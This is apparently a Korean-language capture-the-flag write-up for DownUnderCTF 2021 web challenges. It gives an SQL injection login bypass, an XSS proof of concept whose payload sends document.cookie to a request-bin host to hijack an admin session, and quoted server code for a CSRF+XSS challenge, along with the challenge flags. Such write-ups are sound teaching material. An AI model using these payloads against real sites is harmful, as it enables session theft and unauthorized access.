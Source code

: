 그래서 정보 수집을 하기 위해서 `/robots.txt`로 접속을 해보니 메일 파일이 있었고, 메일 내용으로 위와 같이 있었습니다. 그래서 그냥 username으로 `sadcowboy`를 넘겨주고 password 값으로 `'or 1=1 --` 해주니 해결 되었습니다.

```
DUCTF{haww_yeeee_downunderctf?}
```

---
### x1337 Sk1d R3p0rt3r [232 pts]

> x1337 Sk1d R3p0rt3r 문제는 구문 분석에 의한 XSS를 이용해서 플래그를 획득하는 문제 입니다. 귀찮아서 gist에 올린 거 그대도 올립니다.

```
poc-1. </script>
poc-2. <script>`
```

```
1. Go to https://web-x1337-sk1d-r3p0rt3r-9cfd1dc4.chal-2021.duc.tf/.
2. login after register your personal account.
3. Edit the username to poc-1 and report to any value.
4. Edit the username to poc-2 and report to "`;fetch(`http://requestbin/?c=`+document.cookie)//".
5. Finally, edit the username to poc-1 and report to any value.
6. Then we can successfully hijack the admin session
```
![](https://user-images.githubusercontent.com/49112423/134772882-3cfe5698-ea5f-46ec-b48c-28d1e2668f00.png)

```
DUCTF{xxX_x55_4_1337_h4x0rz_Xxx}
```

---
### Notepad [473 pts]

> Notepad 문제는 CSRF + XSS를 체이닝 해서 플래그를 획득하는 문제 입니다. 개인적으로 매우 쉬웠는데 솔브가 왜 적은 지 이해가 안 됨.

소스 코드가 제공 됨으로 플래그 획득 조건을 확인 해보겠습니다.

```python
@app.route('/admin')
async def admin():
    if quart.session.get('admin') != 1:
        return "", 403
    return open('flag.txt').read()

@app.route('/report', methods=["GET", "POST"])
@quart_rate_limiter.rate_limit(5, dt.timedelta(seconds=10))
async def report():
    user = quart.session.get('user')
    if not user:
        return quart.redirect(quart.url_for('index'))
    if quart.session.get('admin') == 1:
        # Just in case anyone tries it
        return "You're the admin... Go fix it yourself", 418

    if quart.request.method == 'POST':
        form = await quart.request.form
        url = form.get('url')
        if url:
            __stub_get_url(url)
            return quart.redirect(quart.url_for('me'))

    return await quart.render_template('report.html')

@app.route('/__stub/admin/login')
async def __stub_admin_login():
    quart.session['admin'] = 1
```